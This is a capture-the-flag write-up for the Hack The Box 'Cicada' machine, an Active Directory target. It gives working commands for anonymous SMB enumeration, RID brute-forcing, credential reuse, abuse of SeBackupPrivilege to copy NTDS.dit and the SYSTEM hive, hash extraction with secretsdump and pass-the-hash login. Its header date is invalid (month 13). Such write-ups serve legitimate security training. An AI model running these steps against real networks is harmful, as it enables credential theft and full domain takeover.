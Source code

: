 ```yaml
---
layout: post
title: Cicada - HackTheBox
date: 2024-13-11 19:25:40
description: Writeup for a Box in HackTheBox
tags: windows
categories: htb
---
```


# Cicada  

**Author:** p4pa  
**Platform:** Hack The Box (Easy)  

## Reconnaissance

### NMAP

Starting with **Nmap**, I scanned the target to identify any open ports and services. This would guide my initial approach, helping me focus on the services that might allow further access.

```bash
nmap -Pn 10.10.11.35
```

This scan revealed a range of open ports, suggesting a **Windows environment** with possible Active Directory (AD) involvement, given the presence of SMB, LDAP, and Kerberos ports:

```bash
PORT     STATE SERVICE
53/tcp   open  domain            # DNS
88/tcp   open  kerberos-sec      # Kerberos
135/tcp  open  msrpc             # RPC
139/tcp  open  netbios-ssn       # NetBIOS
389/tcp  open  ldap              # LDAP
445/tcp  open  microsoft-ds      # SMB
464/tcp  open  kpasswd5          # Kerberos password change
593/tcp  open  http-rpc-epmap    # HTTP RPC endpoint mapper
3268/tcp open  globalcatLDAP     # Global Catalog LDAP
3269/tcp open  globalcatLDAPssl  # Global Catalog LDAP over SSL
```

To gain more insight, I ran an **Nmap service scan** on these ports, aiming to detect version details and confirm any AD clues.

```bash
nmap -p 53,88,135,389,445,464,593,3268,3269 -sV 10.10.11.35 -Pn
```

---

### LDAP and SMB

I started with **LDAP** as it can sometimes allow anonymous binding, giving access to AD information. Here, however, **anonymous bind was denied**, indicating that authentication was required.

```bash
ldapsearch -H ldap://10.10.11.35:389 -x
```

Next, I explored **SMB**. Using `smbclient`, I listed available shares and tried accessing them without credentials. This worked for several shares, but only **HR** allowed anonymous access.

```bash
smbclient -L //10.10.11.35 -N
```

Listing the contents of `HR`, I found a file called *"Notice from HR.txt"*:

```bash
smb: \> ls
Notice from HR.txt
```

Opening it revealed what appeared to be **default credentials** for new hires:

```plaintext
Your default password is: Cicada$M6Corpb*@Lp#nZp!8
```

This was promising, as it implied we might have found a valid **AD account credential**.

### RPC Enumeration

With this initial password in hand, I turned to **RPC**. First, I attempted **anonymous enumeration** via `rpcclient`:

```bash
rpcclient -U "" 10.10.11.35
```

However, I didn’t have the required permissions for user enumeration as an anonymous user. Using the **default HR credentials**, I was able to log in successfully, though I still couldn’t enumerate all users without higher permissions.

### HTTP and RPC Endpoint Analysis

The **HTTP endpoint on port 593** was notable as it provided **RPC over HTTP**—an older service that can sometimes leak endpoint information. Running a scan revealed multiple endpoints, including:

- **LiveIdSvc RPC** - potentially related to Microsoft account authentication.
- **Group Policy RPC Interface** - could be useful if it holds misconfigured policies.
- **MS NT Directory DRS Interface** - ties into AD replication, hinting that this machine might indeed be a domain controller.

---

## SMB User Enumeration with NXC

At this point, I reached out to a friend ([Co3lho](https://github.com/Co3lho22)) who recommended **NXC**, a helpful tool for SMB enumeration, especially within AD environments. NXC’s **RID-brute** functionality can reveal domain users by brute-forcing their relative IDs (RIDs).

```bash
nxc smb -u 'asdf' -p '' --rid-brute 20000 10.10.11.35
```

The enumeration yielded several accounts, including **michael.wrightson**. I attempted to log in using the **HR default password**:

```bash
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

After gaining access with Michael’s credentials, I used **NXC to enumerate other users**. This resulted in the discovery of **David Orelious’s credentials**:

- Username: `david.orelious`
- Password: `aRt$Lp#7t*VQ!3`

Testing David’s login on SMB, I found he had access to a **DEV share**, where I discovered a **backup script**. Reviewing this script yielded even more credentials:

```plaintext
emily.oscars
Q!3@Lp#M6b*7t*Vt
```

---

## Privilege Escalation and Reverse Shell

With **Emily Oscars’ credentials** in hand, I decided to try for a remote session with **Evil-WinRM**.

```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

After logging in, I checked her **privileges** using `whoami /priv`. The output showed **SeBackupPrivilege** and **SeRestorePrivilege**, which are essential for accessing and modifying files usually restricted to admins:

```plaintext
SeBackupPrivilege
SeRestorePrivilege
```

### Directory Discovery and Privilege Escalation with SeBackupPrivilege

Having **SeBackupPrivilege** meant I could attempt to access otherwise restricted system files, like `NTDS.dit`, which holds AD data. To exploit this, I wrote a **diskshadow script** to mount the C drive:

```plaintext
set metadata C:\Windows\Temp\meta.cab
add volume C: alias cdrive
expose %cdrive% E:
```

Using **diskshadow** with this script allowed me to mount the drive for backup:

```bash
diskshadow /s backup_script.txt
```

### Extracting NTDS.dit with Robocopy

Once mounted, I used **Robocopy** to copy `NTDS.dit` and acquire **encrypted AD user data**:

```bash
robocopy /b E:\Windows\ntds . ntds.dit
```

I also needed the **SYSTEM registry hive** to decrypt these hashes, so I saved it using the **reg save** command:

```bash
reg save hklm\system C:\Users\emily.oscars.CICADA\Documents\system.bak
```

### Dumping Administrator Hash

I downloaded `ntds.dit` and `system.bak`, then used **Impacket’s secretsdump** to extract the **Administrator NTLM hash**:

```bash
impacket.secretsdump -ntds ntds.dit -system system.bak local
```

Finally, with the Administrator hash, I logged in using Evil-WinRM to access the Administrator account:

```bash
evil-winrm -i 10.10.11.35 -u Administrator -H <hash>
```

**Flag:** The **root flag** was located in `root.txt`.

